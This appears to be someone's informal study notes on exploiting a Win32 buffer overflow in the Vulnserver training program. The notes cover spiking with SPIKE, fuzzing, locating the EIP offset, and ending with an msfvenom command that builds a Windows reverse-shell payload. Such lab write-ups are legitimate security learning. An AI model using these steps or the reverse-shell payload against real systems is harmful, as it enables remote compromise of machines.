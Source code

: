 # BUFFER OVERFLOW WIN32

# EP1

## Intro

## tools
> * vulnsever --> [link](https://github.com/stephenbradshaw/vulnserver)
> * immunity debugger ---> [link](https://debugger.immunityinc.com/ID_register.py)
---

# EP2 - Spiking

## tools 
> * spike-fuzzer 

i run the program and set a listner in 9999 port using netcat `nc -nv 9999`

there are bunch of command avilable in that program and i am looking for a command that is vuln (buffer overflow).

I use one of the spike-fuzzer command `spike-fuzzer-generic-send_tcp` to check that 

the command structure look like this

```bash
generic_send_tcp host port spike_script SKIPVAR SKIPSTR
```
one with my config

```bash
spike-fuzzer-generic-send_tcp 127.0.0.1 9999 stats.spk 0 0
```
i tried to overflow the command `STATS` first but it doest seems vuln

this is how the spk file look like we need to add command inside `s_string("");` 

 - [!] 
 ```
s_readline();
s_string("STATS ");
s_string_variable("0");
 ```

then i tried the same think by changing the script with TRUN and its immediatly stoped running .

ESP and EBP holding same hex value '41414141' == AAAA
---
# EP3 Fuzzing

wrote the script (my version) 
```bash
cat fuzz.py
```
and fuzzed the close byte and it is 2600 
---

# EP4 Finding Offset

I wrote a script to find the offset value to manipulate EIP reg

script 
```bash 
cat offset.py
```

used 

```bash 
 pattern_create.rb -l 3000
```
to create pattern and run the script like previously did and the program crashed a expected

and We got this `386F4337` Value in EIP 

so i used another command to find offset 

```bash
pattern_offset.rb -l 3000 -q 386F4337
```
now we found in 2003 
now we know in 2003 we can control the EIP



command you know why 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```
